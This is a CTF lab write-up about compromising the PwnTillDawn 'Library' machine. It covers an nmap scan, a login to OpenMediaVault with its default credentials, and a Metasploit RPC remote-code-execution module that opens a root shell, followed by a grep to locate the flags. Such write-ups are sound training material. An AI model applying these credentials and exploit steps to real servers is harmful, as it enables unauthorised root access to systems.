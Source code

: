 ```yaml
---
layout: post
title: PwnTillDawn - Library Write-Up
date: 2024-11-17
classes: wide
description: Exploring an Open Media Vault webserver with Metasploit modules.
---
```


# Library (10.150.150.111)

![](/assets/img/post/pwntilldawn_library/1.png)

## Scanning Target

The first obvious step is to fire up nmap to gather information about ports on our target:

```
$ sudo nmap -sV -sC -oN scans/nmap.txt 10.150.150.111
```

Interetingly enough, we only have one accessible port, in this case it's `80/tcp` and apparently running Open Media Vault on it.

![](/assets/img/post/pwntilldawn_library/2.png)



## Webserver Exploration

As shown by Nmap, this is an Open Media Vault control panel running on the web server.

![](/assets/img/post/pwntilldawn_library/3.png)

A quick note: remember to always check for default credentials, beucase it took me a really long time to figure out it was this obvious. After searching out, I've found the default credentials are `admin:openmediavault`, who would've guessed?

Once we've successfully accessed the control panel with the administration account, we are greeted with the dashboard, showing us  a version string which can be useful to search for exploits later on.

![](/assets/img/post/pwntilldawn_library/4.png)

After a quick search, discovered that Rapid7 has a Metasploit module to exploit OpenMediaVault version **5.5.11** with a Remote Code Execution (RCE) vulnerability through `rcp.php`, awesome! Moveover, it matches our target version string.

![](/assets/img/post/pwntilldawn_library/5.png)



## Exploiting Target

Let's try and exploit the server with the recently discovered exploit.

```
$ sudo msfconsole
msf6 > use unix/webapp/openmediavault_rpc_rce
msf6 > set lhost X.X.X.X
msf6 > set rhosts 10.150.150.111
```

![](/assets/img/post/pwntilldawn_library/6.png)

Looks like it worked, as we got a message informing about a newly created session. Let's check it out by accessing the most recent session in our Metasploit.

```
msf6 > sessions -i -1
meterpreter > shell
/bin/bash -i
```

Not only it worked as expected, but we've now got access directly to the root user, so we won't have to bother with privilege escalation process this time.

Soon after gaining access,  we can find **FLAG1.txt** inside root's home directory.

![](/assets/img/post/pwntilldawn_library/7.png)

After searching out a while for the second flag, I've came up with the ideia of using grep recursively to find out where it is.

```
$ grep -rni "flag2" / 2>/dev/null
```

What this command does is search out for the string "flag2"  on the root of the system, while ignoring case differences and sending error messages to `/dev/null`.

![](/assets/img/post/pwntilldawn_library/8.png)
